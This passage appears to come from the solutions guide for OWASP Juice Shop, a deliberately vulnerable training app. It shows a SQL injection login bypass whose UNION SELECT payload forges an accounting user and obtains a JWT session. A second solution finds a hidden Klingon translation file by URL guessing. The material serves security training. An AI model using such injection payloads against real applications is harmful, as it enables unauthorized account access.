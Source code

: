 1. Go to <http://localhost:3000/#/login> and try logging in with _Email_
   `'` and any _Password_ while observing the Browser DevTools network
   tab.
2. You will notice the SQL query for the login in the error being
   thrown: `"sql": "SELECT * FROM Users WHERE email = ''' AND password =
   '339df5aeae5bc6ae557491e02619c5dd' AND deletedAt IS NULL"`
3. Solve
   [Exfiltrate the entire DB schema definition via SQL Injection](#exfiltrate-the-entire-db-schema-definition-via-sql-injection)
   to learn the exact column names of the `Users` table.
4. Prepare a `UNION SELECT` payload what will a) ensure there is no
   result from the original query and b) will add the needed user
   on-the-fly using static values in the query.
5. Log in with _Email_ `' UNION SELECT * FROM (SELECT 15 as 'id', '' as
   'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as
   'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4'
   as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as
   'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16
   14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00'
   as 'updatedAt', null as 'deletedAt')--`
6. This will trick the application backend into handing out a valid JWT
   token and thus establishing a user session.

### Retrieve the language file that never made it into production

1. Monitoring the HTTP calls to the backend when switching languages
   tells you how the translations are loaded:
   * <http://localhost:3000/i18n/en.json>
   * <http://localhost:3000/i18n/de_DE.json>
   * <http://localhost:3000/i18n/nl_NL.json>
   * <http://localhost:3000/i18n/zh_CN.json>
   * <http://localhost:3000/i18n/zh_HK.json>
   * etc.
2. It is obvious the language files are stored with the official
   _locale_ as name using underscore notation.
3. Nonetheless, even brute forcing all thinkable locale codes (`aa_AA`,
   `ab_AA`, ..., `zz_ZY`, `zz_ZZ`) would still **not** solve the
   challenge.
4. The hidden language is _Klingon_ which is represented by a
   three-letter code `tlh` with the dummy country code `AA`.
5. Request <http://localhost:3000/i18n/tlh_AA.json> to solve the
   challenge. majQa'!

Instead of expanding your brute force pattern (which is not a very
obvious decision to make) you can more easily find the solution to this
challenge by investigating which languages are supported in the Juice
Shop and how [the translations](../part3/translation.md) are managed.
This will quickly bring you over to
<https://crowdin.com/project/owasp-juice-shop> which immediately
spoilers _Klingon_ as a supported language. Hovering over the
corresponding flag will eventually spoiler the language code `tlh_AA`.
